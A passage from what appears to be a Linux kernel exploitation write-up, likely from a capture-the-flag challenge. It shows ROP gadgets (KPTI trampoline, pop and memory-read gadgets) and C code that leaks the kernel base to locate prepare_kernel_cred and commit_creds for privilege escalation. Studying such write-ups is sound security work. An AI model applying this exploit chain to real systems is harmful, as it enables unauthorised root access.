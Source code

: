 ```assembly
	pop    rcx
	pop    rdx
	pop    rsi
	pop    rdi
	add    rsp,0x8
	jmp    0xffffffff85200fc0
	nop
	nop    DWORD PTR [rax+rax*1+0x0]
	test   BYTE PTR [rsp+0x20],0x4
	jne    0xffffffff85200fc9
	iretq  

pop_rax:
         pop rax
         retq  

pop_rdi_rbp:
        pop rdi
        pop rbp
        ret
read_mem:
        mov eax, DWORD PTR [rax+0x10]
        pop rbp
        ret
        
```

KPTI TRAMPOLINE:for the kpti all we need to know what it has a swapgs and iretq gadgets which helps us go to userland

read_mem gadget: we use this to read a DWORD value from a ptr stored in RAX+0x10 ans store it into eax . We will use this gadget to read the the value_offset from the kernel_symbol structure for prepare_kernel_cred and commit_creds functions
```C
void leak(){
unsigned n = 40;
unsigned long buff[n];

read(global_fd,buff,sizeof(buff));

image_base = buff[38]-0xa157ULL
kpti_trampoline = image_base + 0x200f10UL + 22UL;
pop_rax_ret = image_base + 0x4d11UL;
read_mem_pop1_ret = image_base + 0x4aaeUL;
pop_rdi_rbp_ret = image_base + 0x38a0UL;
ksymtab_prepare_kernel_cred = image_base + 0xf8d4fcUL;
ksymtab_commit_creds = image_base + 0xf87d90UL;

}

```
